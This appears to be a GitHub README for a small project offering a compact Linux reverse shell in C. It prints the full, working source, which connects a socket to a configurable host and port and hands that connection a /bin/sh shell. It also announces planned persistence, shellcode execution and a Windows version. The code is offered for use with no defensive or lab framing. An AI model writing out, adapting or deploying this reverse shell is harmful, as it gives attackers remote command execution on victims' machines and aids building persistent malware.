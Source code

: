 # compact_linux_reverse_shell
A compact linux reverse shell written in the C programming language.


### upcoming changes:
- Windows version(on going!)
- adding shellcode execution (with a short & neat guide how to get shellcode without using radare2 or the classical ghidra or metasploit utils)
- persistence mechanism


### Sources:
- stack overflow
- 


https://gist.github.com/loneicewolf/8232aad5722e1e7de9d92932b5a01597
```
#include <stdio.h>
#include <unistd.h>
#include <arpa/inet.h>
#define RP 1234
#define RH "127.0.0.1"
#define BIN "/bin/sh"
int main(){
int is = 0;is = socket(AF_INET,SOCK_STREAM,0);
struct  sockaddr_in s1;
s1.sin_family      = AF_INET;
s1.sin_port        = htons(RP);
s1.sin_addr.s_addr = inet_addr(RH);
connect( is,(struct sockaddr *) &s1,sizeof(s1));
for(int i=0;i<3;dup2(is,i),i++);
char * const argv[] = {BIN,NULL};
execve(BIN, argv, NULL);
return 0;}
```
